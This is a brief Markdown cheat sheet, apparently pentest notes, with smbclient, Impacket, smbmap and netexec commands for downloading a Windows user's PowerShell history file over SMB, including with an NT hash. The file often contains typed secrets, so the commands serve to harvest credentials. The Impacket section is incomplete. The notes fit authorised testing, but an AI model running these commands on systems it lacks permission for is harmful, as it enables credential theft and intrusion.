 # Unix Shell

TODO: Convert it

smbclient

smbclient.py

smbmap

netexec

## 01 - Samba Suite Utils

```
smb: \> more /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt

smb: \> get /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt
```

## 02 - Impacket

```
$ smbclient.py

$ smbclient.py
```

Retrieve text file.

```
# get Users\<username>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt
```

## 03 - SMBMap

```
$ smbmap -u "<username>" -p "<password | nt_hash>" [-d <domain>] -H <IP> --download "C$\Users\<username>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt"
```

## 04 - NetExec

```
$ netexec smb -u "<username>" -p "<password>" [-d <domain> | --local-auth] --get-file /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt powershell_history.txt

$ netexec smb -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth] --get-file /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt powershell_history.txt
```